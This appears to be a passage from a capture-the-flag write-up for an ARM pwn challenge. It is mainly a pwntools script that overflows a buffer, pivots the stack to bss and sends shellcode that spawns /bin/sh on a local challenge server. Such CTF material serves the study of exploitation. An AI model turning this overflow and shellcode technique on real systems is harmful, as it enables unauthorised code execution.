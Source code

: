 ## EZ2.0?(arm)

> 和mips一模一样 栈迁移 然后shellcode

```python
from pwn import *
# context(os='linux', arch='mips',endian="little", log_level='debug')
context( arch='arm', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./arm"
url = "127.0.0.1"
port = 57621
elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b vuln")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
bss = elf.bss()
print("bss:",hex(bss))
ru(b"welcome XYCTF arm world\n")
sd(b"a"*0x40+p32(bss+0x100+0x44)+p32(0x10588))
shellcode  = b"\x02\x20\x42\xe0\x1c\x30\x8f\xe2"
shellcode += b"\x04\x30\x8d\xe5\x08\x20\x8d\xe5"
shellcode += b"\x13\x02\xa0\xe1\x07\x20\xc3\xe5"
shellcode += b"\x04\x30\x8f\xe2\x04\x10\x8d\xe2"
shellcode += b"\x01\x20\xc3\xe5\x0b\x0b\x90\xef"
shellcode += b"/bin/sh"
print("shellcode:",shellcode)
# input("test")
input("test")
payload = b"a"*0x40+p32(bss+0x100+0x44)+p32( 0x8afc4 )+shellcode
sd(payload)
ia()
```

## one_byte

